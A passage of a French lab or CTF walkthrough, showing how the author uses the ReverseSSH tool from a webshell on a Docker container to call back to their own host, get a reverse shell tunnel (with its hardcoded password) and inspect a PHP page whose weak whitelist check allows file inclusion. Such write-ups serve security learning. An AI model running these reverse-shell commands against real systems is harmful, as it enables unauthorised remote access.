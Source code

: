 D'abord je met un port en écoute sur ma machine pour un scénario de reverse-shell :  

```plain
$ ./reverse-sshx64 -l -p 2244 -v
```

Et sur le Docker (via le webshell du coup) :  

```plain
$ reverse-ssh -v -p 2424 192.168.56.1 
2021/12/16 12:08:44 Dialling home via ssh to 192.168.56.1:2244
2021/12/16 12:08:44 Success: listening at home on 127.0.0.1:8888
2021/12/16 12:09:05 Successful authentication with password from www-data@127.0.0.1:43874
2021/12/16 12:09:05 New login from www-data@127.0.0.1:43874
2021/12/16 12:09:05 PTY requested
2021/12/16 12:09:05 Could not start shell: fork/exec /bin/bash: no such file or directory
```

Il faut répéter la commande avec *-s /bin/sh* pour fixer ce contre temps.  

Cela établit un tunnel SSH. Il faut ensuite utiliser le client SSH standard pour obtenir le shell via ce tunnel sur le port 8888 (valeur par défaut qui peut se changer avec l'option *-b* de *ReverseSSH*).  

```bash
$ ssh -p 8888 brudi@127.0.0.1
```

Le nom d'utilisateur importe peu, il n'est pas pris en compte. Le mot de passe à saisir est hardcodé, il s'agit de *letmeinbrudipls* mais c'est possible de le changer via recompilation de l'outil.  

L'accès plus civilisé me permet de vérifier mes hypothèses comme la whitelist :  

```php
<?php

session_start();

if(isset($_SESSION["loggedin"])){

        $currentURL = $_GET['p'] . '.php';
        $namingWhitelist = ["welcome.php", "balance.php", "transfer.php", "about.php", "account.php", "logout.php"];

        foreach($namingWhitelist as $uri){

                if(strpos($currentURL, $uri) !== FALSE){
                        include($currentURL);
        }

}

} else {
        header("Location: /");
}
```
